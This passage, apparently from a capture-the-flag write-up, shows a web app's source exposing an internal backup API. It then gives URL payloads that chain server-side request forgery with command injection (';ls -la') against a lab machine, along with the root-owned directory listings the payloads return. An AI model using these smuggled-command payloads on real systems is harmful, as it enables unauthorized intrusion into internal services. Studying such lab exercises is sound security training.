```
  methods: {
    async submitUrl() {
      this.hasResponse = false
      console.log('Submitted URL')
      try {
        const response = await this.$axios.$get('http://api-dev-backup:8080/exif', {
          params: {
            url: this.url,
          },
        })
        this.hasResponse = true
        this.response = response
      } catch (err) {
        console.log(err)
        this.$buefy.notification.open({
          duration: 4000,
          message: 'Something bad happened, please verify that the URL is valid',
          type: 'is-danger',
          position: 'is-top',
          hasIcon: true,
        })
      }
    },
  },
}
</script>
```

http://api-dev-backup:8080/exif stands out
so lets try and utilize this backup api to 

/api/exif?url=http://api-dev-backup:8080/exif?url=;ls -la
```
An error occurred: File format could not be determined
                Retrieved Content
                ----------------------------------------
                An error occurred: File format could not be determined
               Retrieved Content
               ----------------------------------------
               curl: no URL specified!
curl: try 'curl --help' or 'curl --manual' for more information
total 49260
drwxr-xr-x 1 root root     4096 Jan  7 17:42 .
drwxr-xr-x 1 root root     4096 Jan  7 22:14 ..
-rwxr-xr-x 1 root root 50433552 Jan  7 16:46 application

```

awesome this works so now lets try and explore the rest of the filesystem

10.10.249.5/api/exif?url=http://api-dev-backup:8080/exif?url=;ls -la /
```
An error occurred: File format could not be determined
                Retrieved Content
                ----------------------------------------
                An error occurred: File format could not be determined
               Retrieved Content
               ----------------------------------------
               curl: no URL specified!
curl: try 'curl --help' or 'curl --manual' for more information
total 76
drwxr-xr-x  1 root root 4096 Jan  7 22:14 .
drwxr-xr-x  1 root root 4096 Jan  7 22:14 ..
-rwxr-xr-x  1 root root    0 Jan  7 22:14 .dockerenv
drwxr-xr-x  1 root root 4096 Jan  6 20:51 bin
```